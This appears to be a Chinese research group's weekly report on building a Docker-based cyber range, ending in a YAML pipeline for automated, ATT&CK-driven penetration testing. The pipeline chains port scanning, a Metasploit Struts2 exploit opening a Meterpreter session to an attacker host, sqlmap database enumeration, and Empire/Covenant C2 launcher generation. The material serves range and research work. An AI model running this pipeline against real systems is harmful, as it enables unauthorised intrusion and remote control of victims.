




# 2025-11-20 组会周报

## 关键词

- pipeline 
- 拟真
- 网络攻击，阶段，规划，工具MCP

## 部署 CyberRangeSlim

### 测试

`test.sh`验证了CyberRangeSlim环境中的网络连通性、跨子网通信能力以及通过网关对外网的访问能力。

1. 基本网络连通性测试 ：
   
   - 运行up.sh启动基础环境后，测试victim-1和victim-2的路由配置（ip r）
   - 测试victim-1是否能连接外部网络（ping www.cuc.edu.cn 和www.baidu.com）
   - 查看网关(gw)的日志信息
   - 测试victim-2是否能连接外部网络（ping ccs.cuc.edu.cn和www.qq.com）

2. 扩展网络环境测试 ：
   
   - 运行up-30.sh启动扩展环境后，测试三个子网（victim-net-1、victim-net-2、victim-net-3）的路由配置
   - 跨子网互通测试 ：测试不同子网之间的连通性（victim-net-1→victim-net-2，victim-net-2→victim-net-3，victim-net-3→victim-net-1）

3. 外部网络访问测试 ：
   
   - 获取attacker容器的IP地址
   - 测试victim-net-1能否ping通attacker（通过网关NAT）
   - 测试victim-net-2能否通过curl访问attacker
   - 测试victim-net-3到attacker的路由追踪（traceroute）

4. 网关日志监控 ：
   
   - 详细查看网关(gw)的日志输出，记录网络流量和连接情况

5. 环境清理 ：
   
   - 测试完成后运行down.sh清理环境

### docker-network-graph 子模块

* 解决 `pyenv install 3.9.14` 网络错误

```bash
mkdir -p ~/.pyenv/cache
mv ~/Downloads/Python-3.9.14.tar.xz ~/.pyenv/cache/
pyenv install 3.9.14
```

* 解决fdp命令无法识别#%06x颜色

修改`docker-net-graph.py`文件中的颜色格式化代码，将错误的混合使用方式更正为标准的str.format()方法

```bash
# c = "#%06x".format(random.randint(0, 0xFFFFFF))
c = "#{:06x}".format(random.randint(0, 0xFFFFFF))
```

* 启动项目后，生成并查看完整的网络拓扑

```bash
# 启动 CyberRangeSlim 项目
cd /home/husenyue/CyberRangeSlim-task-scale-victims-32-3nets_2025-11-06_1
bash up.sh

# 生成网络拓扑图
cd docker-network-graph
pipenv run python docker-net-graph.py | fdp -Tpng -o crs_network.png
```



* 在扩容受害者子网后，生成更新的网络拓扑图

```bash
# 扩容受害者子网
cd /home/husenyue/CyberRangeSlim-task-scale-victims-32-3nets_2025-11-06_1
docker compose --env-file crs.env up -d \
  --scale victim-net-1=10 \
  --scale victim-net-2=10 \
  --scale victim-net-3=10

# 生成扩容后的网络拓扑图
cd docker-network-graph
pipenv run python docker-net-graph.py | sfdp -Tpng -o expanded_network.png
```




```bash
# fdp：适用于中小型网络拓扑图，对于节点数较少的图效果好。
# sfdp：针对大型复杂网络优化，采用多层次技术处理大规模图形，能够更高效地处理大量节点。
```

## ATT&CK 框架

- [一文说清楚MITRE ATT&CK威胁框架](https://xz.aliyun.com/news/13586)

ATT&CK 知识图谱结构：

```bash
 tactics (战术)
    └─> techniques (技术)
        └─> sub-techniques (子技术)
            └─> procedures (具体实现)
                └─> tools (工具映射)
```

## pipeline文件

pipeline文件通常用于定义某种自动化流程。

参考数据流架构和核心技术栈，编写简单的pipeline文件。





```bash
# 工具链编排Pipeline：基于攻防工具链的智能化靶场渗透流程
pipeline_id: smart-pentest-pipeline-v2.0
name: 基于攻防工具链的智能化靶场渗透测试工具链
description: 整合扫描、漏洞利用、Web安全、后渗透工具，实现 ATT&CK 驱动的自动化渗透与自我优化
stages:
  - name: 扫描阶段
    tools:
      - tool: nmap
        version: "7.9+"
        params:
          - "-sV"
          - "-p 1-65535"
          - "${target_ip}"
        output: "nmap_scan_result.txt"
        success_condition: "output_file_exists(nmap_scan_result.txt)" # 成功条件：检查输出文件是否存在
      - tool: masscan
        version: "1.3+"
        params:
          - "-p 1-65535"
          - "${target_ip}"
          - "--rate=1000"
        output: "masscan_scan_result.txt"
        success_condition: "output_file_exists(masscan_scan_result.txt)"
  
  - name: 漏洞利用阶段
    tools:
      - tool: metasploit-framework
        version: "6.3+"
        params:
          - "use auxiliary/scanner/portscan/tcp"
          - "set RHOSTS ${target_ip}"
          - "run"
          - "use exploit/multi/http/struts2_content_type_ognl"
          - "set RHOSTS ${target_ip}"
          - "set LHOST ${attacker_ip}"
          - "run"
        output: "metasploit_exploit_result.txt"
        success_condition: "contains(output, 'Meterpreter session opened')" # 成功条件：检查输出中是否包含特定成功标识
  
  - name: Web安全阶段
    tools:
      - tool: sqlmap
        version: "1.7+"
        params:
          - "-u http://${target_ip}/vuln.php?id=1"
          - "--batch"
          - "--dbs"
        output: "sqlmap_scan_result.txt"
        success_condition: "contains(output, 'database names')" # 成功条件：输出特定内容，如数据库名称
      - tool: burp-suite-api
        version: "latest"
        params:
          - "start_scan"
          - "target=http://${target_ip}"
          - "profile=full_scan"
        output: "burp_scan_report.html"
        success_condition: "output_file_exists(burp_scan_report.html)"
  
  - name: 后渗透阶段
    tools:
      - tool: empire
        version: "4.8+"
        params:
          - "use listeners/http"
          - "set Name http_listener"
          - "execute"
          - "use stagers/multi/launcher"
          - "set Listener http_listener"
          - "generate > launcher.bat"
          - "interact ${agent_id}"
          - "sysinfo"
        output: "empire_post_exploit.txt"
        success_condition: "contains(output, 'OS : Windows')" # 成功条件：输出操作系统信息
      - tool: covenant
        version: "latest"
        params:
          - "NewListener HTTP"
          - "Generate Launcher -Listener HTTP -Format exe -OutPath launcher.exe"
          - "Interact ${grunt_id}"
          - "GetSystemInfo"
        output: "covenant_post_exploit.txt"
        success_condition: "contains(output, 'Domain :')" # 成功条件：输出域名信息

# 结果输出与反馈配置
outputs:
  - name: 渗透测试报告生成
    tool: report-generator
    params:
      - "--input-dir=./"
      - "--output=pentest_report_${timestamp}.pdf" # 跟踪测试过程和结果
  - name: 实时日志采集
    tool: log-collector
    params:
      - "--pipeline-id=${pipeline_id}"
      - "--output=real_time_logs.json" # 跟踪测试过程和结果
    success_condition: "output_file_exists(real_time_logs.json)"

# 自我优化与策略调整钩子
self_optimization_hooks:
  # 如果漏洞利用阶段的工具失败，建议使用其他工具更新攻击策略
  - on_stage_failure:
      stage: 漏洞利用阶段
      action: "call self_optimization_module"
      params:
        - "update_strategy=ATT&CK"
        - "failed_tool=metasploit-framework"
        - "suggested_tools=[exploitdb, sqlmap]"
  # 如果特定工具失败（如sqlmap），调用自我优化模块进行参数调整
  - on_tool_failure:
      tool: sqlmap
      action: "call self_optimization_module"
      params:
        - "update_strategy=Web_Security"
        - "failed_param=url"
        - "suggested_changes=add_burp-suite-api_scan_depth"
```